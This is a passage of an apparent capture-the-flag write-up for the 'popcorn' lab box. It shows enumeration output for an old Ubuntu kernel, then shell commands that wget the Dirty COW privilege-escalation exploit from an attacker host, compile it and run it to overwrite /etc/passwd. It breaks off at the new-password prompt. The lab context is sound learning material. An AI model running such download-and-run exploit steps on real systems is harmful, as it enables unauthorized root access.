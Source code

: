 ```
[-] Debug Info
[+] Thorough tests = Disabled


Scan started at:
Fri Mar 13 09:14:33 EET 2020


### SYSTEM ##############################################
[-] Kernel information:
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux


[-] Kernel information (continued):
Linux version 2.6.31-14-generic-pae (buildd@rothera) (gcc version 4.4.1 (Ubuntu 4.4.1-4ubuntu8) ) #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009


[-] Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=9.10
DISTRIB_CODENAME=karmic
DISTRIB_DESCRIPTION="Ubuntu 9.10"


[-] Hostname:
popcorn
```
there was a lot more info but here i have only included the SYSTEM info  
we can start by searching for exploits for this kernel version  
so i searched for "Linux popcorn 2.6.31-14 exploit"  
got this privEsc result "https://www.exploit-db.com/exploits/40839" ==> "Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)"  
so i downloaded the c file into the shell, compiled and ran it as given in the comment in file  
```
www-data@popcorn:/tmp$ wget http://10.10.14.57/40839.c
wget http://10.10.14.57/40839.c
--2020-03-13 09:36:16--  http://10.10.14.57/40839.c
Connecting to 10.10.14.57:80... failed: Connection refused.
www-data@popcorn:/tmp$ wget http://10.10.14.57:8000/40839.c
wget http://10.10.14.57:8000/40839.c
--2020-03-13 09:36:38--  http://10.10.14.57:8000/40839.c
Connecting to 10.10.14.57:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5006 (4.9K) [text/plain]
Saving to: `40839.c'

100%[======================================>] 5,006       --.-K/s   in 0.1s    

2020-03-13 09:36:39 (51.2 KB/s) - `40839.c' saved [5006/5006]

www-data@popcorn:/tmp$ ls
ls
40839.c  LinEnum.sh
www-data@popcorn:/tmp$ gcc -pthread 40839.c -o dirty -lcrypt
gcc -pthread 40839.c -o dirty -lcrypt
www-data@popcorn:/tmp$ ls
ls
40839.c  LinEnum.sh  dirty
www-data@popcorn:/tmp$ ./dirty
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: qwerty
```